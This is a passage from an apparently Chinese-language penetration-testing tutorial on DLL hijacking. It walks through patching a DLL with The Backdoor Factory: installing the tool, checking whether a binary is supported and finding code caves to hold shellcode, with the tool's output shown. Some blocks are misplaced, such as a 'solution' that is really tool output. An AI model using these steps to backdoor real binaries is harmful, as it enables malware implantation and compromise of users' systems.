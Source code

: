 效果如下:

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6tiahSDOzibOQ5CE2vqU0sf4lOQn9exiaVP6FLOOX7Vt2gv8bIxsGfNUqFsC0431tU439OFNcL3Z9uQ/640?wx_fmt=png)

后面的功能也是正常调用的, 不过这个需要注意的地方就是加载的程序和 DLL 的位数必须一样，要不然就会加载出错的, 所以劫持的时候需要观察下位数。

比如下面这个例子:

这里加载程序 hello.exe(64 位) 的, 加载 Test.dll(32 位) 就出错了。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6tiahSDOzibOQ5CE2vqU0sf4EOVHB4gga4osev65avb6ZgGSUGGfESVvmsIJ7iawCpjhptExte6U6Ng/640?wx_fmt=png)

### **0x3.2 篡改式劫持**

这种方法属于比较暴力的一种, 通过直接在 DLL 中插入跳转语句从而跳转到我们的 shellcode 位置，这种方式其实局限性蛮多的。

> 1. 签名的 DLL 文件会破坏签名导致失败
> 
> 2. 会修改原生 DLL 文件，容易出现一些程序错误
> 
> 3. 手法比较古老。

这种方式可以采用一个工具 BDF(好像以前 CS 内置这个???):

安装过程:

```
git clone https://github.com/secretsquirrel/the-backdoor-factory
sudo ./install.sh
```

> mac 下 3.0.4 的版本会出现 capstone 的错误.
> 
> 解决方案:
> 
> ```
> [*] Checking if binary is supported
> [*] Gathering file info
> [*] Reading win32 entry instructions
> ./exeTest/TestDll.dll is supported.
> ```

使用过程如下:

1. 首先查看是否支持:./backdoor.py -f ./exeTest/hello.exe -S

```
python2 backdoor.py -f TestDll.dll -c
```

2. 接着搜索是否存在可用的 Code Caves(需要可执行权限的 Caves 来存放 shellcode)

```
Looking for caves with a size of 380 bytes (measured as an integer
[*] Looking for caves
We have a winner: .text
->Begin Cave 0x1074
->End of Cave 0x1200
Size of Cave (int) 396
SizeOfRawData 0xe00
PointerToRawData 0x400
End of Raw Data: 0x1200
**************************************************
No section
->Begin Cave 0x1c15
->End of Cave 0x1e0e
Size of Cave (int) 505
**************************************************
[*] Total of 2 caves found
```
